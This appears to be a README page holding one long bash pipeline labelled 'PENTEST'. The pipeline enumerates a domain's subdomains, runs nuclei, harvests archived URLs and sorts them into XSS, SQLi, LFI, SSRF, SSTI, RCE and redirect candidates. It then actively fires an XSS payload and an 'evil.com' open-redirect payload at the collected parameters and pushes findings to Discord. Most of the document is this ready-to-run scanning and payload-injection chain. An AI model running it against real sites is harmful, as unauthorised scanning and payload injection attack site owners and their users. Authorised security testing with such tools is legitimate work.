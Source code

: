 ## PENTEST

```bash
mkdir  "/home/$USER/Desktop/Pentest/domain.com" && cd  "/home/$USER/Desktop/Pentest/domain.com" && subfinder -d  domains  -o domains-sub.txt -all     && cat domains-sub.txt  | dnsx -silent -a -resp-only   | sort -u > dnsx.txt && cat domains-sub.txt dnsx.txt > domains-sh.txt  && httpx -l domains-sh.txt   -o domains-httpx.txt &&  nuclei -l domains-httpx.txt    -o domains-nuclei.txt -me     report -stats  -si 300  -rc ~/.config/nuclei/report-config.yaml &&  echo "\033[1m WAYBACKURLS STARTED" "\033[0m"     &&  cat domains-httpx.txt | waybackurls | urldedupe > domains-waybackurls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-waybackurls.txt" "\033[0m"  && echo "\033[37m"  |  wc -l domains-waybackurls.txt   &&  echo "\033[37m\033[1m GF-XSS SCAN STARTED" "\033[0m"         && cat domains-waybackurls.txt | urldedupe | gf xss > domains-xss-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-xss-urls.txt"  "\033[0m"  && echo "\033[37m"  |  wc -l domains-xss-urls.txt    &&  echo "\033[37m\033[1m GF-REDİRECT SCAN STARTED" "\033[0m"         && cat domains-waybackurls.txt | urldedupe | gf redirect > domains-redirect-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED  domains-redirect-urls.txt"  "\033[0m"  && echo "\033[37m"  |  wc -l domains-redirect-urls.txt   &&  echo "\033[37m\033[1m GF-SQLİ SCAN STARTED" "\033[0m"        && cat domains-waybackurls.txt | urldedupe | gf sqli > domains-sqli-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-sqli-urls.txt"  "\033[0m" && echo "\033[37m"  |  wc -l domains-sqli-urls.txt    &&  echo "\033[37m\033[1m GF-LFİ SCAN STARTED" "\033[0m"        &&  cat domains-waybackurls.txt | urldedupe | gf lfi > domains-lfi-urls.txt  &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-lfi-urls.txt"   "\033[0m"   && echo "\033[37m"  |  wc -l domains-lfi-urls.txt       &&  echo "\033[37m\033[1m GF-SSRF SCAN STARTED" "\033[0m"          &&  cat domains-waybackurls.txt | urldedupe | gf ssrf > domains-ssrf-urls.txt   &&  echo "\033[37m\033[1m OK"  "\033[1m\033[32m SAVED domains-ssrf-urls.txt"   "\033[0m"  && echo "\033[37m"  |  wc -l domains-ssrf-urls.txt        &&  echo "\033[37m\033[1m GF-SSTİ SCAN STARTED" "\033[0m"         &&  cat domains-waybackurls.txt | urldedupe | gf ssti > domains-ssti-urls.txt   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-ssti-urls.txt"  "\033[0m"   && echo "\033[37m"  |  wc -l domains-ssti-urls.txt       &&  echo "\033[37m\033[1m GF-RCE SCAN STARTED" "\033[0m"          &&  cat domains-waybackurls.txt | urldedupe | gf rce > domains-rce-urls.txt   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-rce-urls.txt"   "\033[0m"   && echo "\033[37m"  |  wc -l domains-rce-urls.txt       &&  echo "\n\033[34m\033[1m XSS SCAN STARTED" "\033[0m"  && echo "\033[37m"  |  wc -l domains-xss-urls.txt   &&   cat domains-xss-urls.txt  | grep "=" | qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "\033[37m\033[1m "  "\033[40m\033[36m\033[1m" "$host" "\033[40m\033[31m\033[1m" Vulnerable;done  | tee domains-xss-poc.txt &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-xss-poc.txt"   &&  echo "\n\033[34m\033[1m OPEN-REDİRECT SCAN STARTED" "\033[0m"   && echo "\033[37m"  |  wc -l domains-redirect-urls.txt  &&  cat domains-redirect-urls.txt | grep "=" | qsreplace "http://evil.com/" | httpx -sc -title -mr "Evil.Com - We get it...Daily." -o domains-openredirect-poc.txt &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-openredirect-poc.txt" && echo "\n\033[34m\033[1m NOTİFY OPEN-REDİRECT SEND" "\033[0m" && notify -data domains-openredirect-poc.txt  -p discord -d 2 -silent  &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-openredirect-poc.txt SUCCESSFULLY SENT TO DISCORD"  && echo "\n\033[34m\033[1m NOTİFY XSS SEND" "\033[0m" && notify -data domains-xss-poc.txt  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-xss-poc.txt SUCCESSFULLY SENT TO DISCORD"   && echo "\n\033[34m\033[1m NOTİFY NUCLEİ SEND" "\033[0m"  && echo "\033[37m"  |  wc -l domains-nuclei.txt    && notify -data domains-nuclei.txt  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-nuclei.txt SUCCESSFULLY SENT TO DISCORD" 

```
### ----------------------------------------------SİNGLE TARGET---------------------------------------------------------------------
